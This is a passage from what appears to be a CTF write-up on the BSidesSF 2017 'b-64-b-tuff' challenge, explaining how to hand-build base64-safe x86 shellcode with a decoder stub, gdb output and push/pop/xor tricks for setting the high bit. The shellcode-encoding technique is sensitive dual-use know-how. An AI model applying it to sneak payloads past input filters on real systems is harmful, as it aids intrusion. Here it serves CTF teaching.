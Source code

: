 <span class="Comment">#0  0x41410141 in ?? ()</span>
(gdb) x/<span class="Number">10i</span> <span class="Identifier">$eip</span>
=&gt; <span class="Number">0x41410141</span>:  push   <span class="Number">0x1</span>
   <span class="Number">0x41410143</span>:  pop    eax
   <span class="Number">0x41410144</span>:  push   <span class="Number">0x41414141</span>
   <span class="Number">0x41410149</span>:  pop    ebx
   <span class="Number">0x4141014a</span>:  inc    ecx
   <span class="Number">0x4141014b</span>:  inc    ecx
   <span class="Number">0x4141014c</span>:  inc    ecx
   <span class="Number">0x4141014d</span>:  int    <span class="Number">0x80</span>
   <span class="Number">0x4141014f</span>:  add    <span class="rubyConstant">BYTE</span> <span class="rubyConstant">PTR</span> [eax],al
   <span class="Number">0x41410151</span>:  add    <span class="rubyConstant">BYTE</span> <span class="rubyConstant">PTR</span> [eax],al
</pre>

As you can see, our original shellcode is properly decoded! (The <tt>inc ecx</tt> instructions you're seeing is our padding.)

The decoder stub and encoded shellcode can be quite easily generated programmatically rather than doing it by hand, which is extremely error prone (it took me 4 tries to get it right - I messed up the start address, I compiled run_raw_code in 64-bit mode, and I got the endianness backwards before I finally got it right, which doesn't sound so bad, except that I had to go back and re-write part of this section and re-run most of the commands to get the proper output each time :) ).

<h2>That pesky most-significant-bit</h2>

So, I've been avoiding this, because I don't think I solved it in a very elegant way. But, my solution works, so I guess that's something. :)

As usual, we start by looking at our <a href='https://github.com/BSidesSF/ctf-2017-release/blob/master/pwn/b-64-b-tuff/solution/command_set.txt'>set of available instructions</a> to see what we can use to set the most significant bit (let's start calling it the "MSB" to save my fingers).

Unfortunately, the easy stuff can't help us; xor can only set it if it's already set somewhere, we don't have any shift instructions, inc would take forever, and the subtract and multiply instructions could <em>probably</em> work, but it would be tricky.

Let's start with a simple case: can we set edx to 0x80?

First, let's set edx to the highest value we can, 0x7F (we choose edx because a) it's one of the three registers we can easily pop into; b) eax is our working variable since it's the only one we can xor; and c) we don't want to change ecx once we start going, since it points to the memory we're decoding):

<pre id='vimCodeElement'>
irb(main):<span class="Number">057</span>:<span class="Number">0</span>&gt; puts <span class="rubyStringDelimiter">'</span><span class="String">0x%08x ^ 0x%08x</span><span class="rubyStringDelimiter">'</span> % get_xor_values_32(<span class="Number">0x0000007F</span>)
<span class="Number">0x41414146</span> ^ <span class="Number">0x41414139</span>
</pre>

Using those values and our old push / pop / xor pattern, we can set edx to 0x80:

<pre id='vimCodeElement'>
<span class="Identifier">push</span> <span class="Number">0x41414146</span>
<span class="Identifier">pop</span> <span class="Identifier">eax</span>
<span class="Identifier">xor</span> <span class="Identifier">eax</span>, <span class="Number">0x41414139</span> <span class="Comment">; eax -&gt; 0x7F</span>
<span class="Identifier">push</span> <span class="Identifier">eax</span>
<span class="Identifier">pop</span> <span class="Identifier">edx</span> <span class="Comment">; edx -&gt; 0x7F</span>
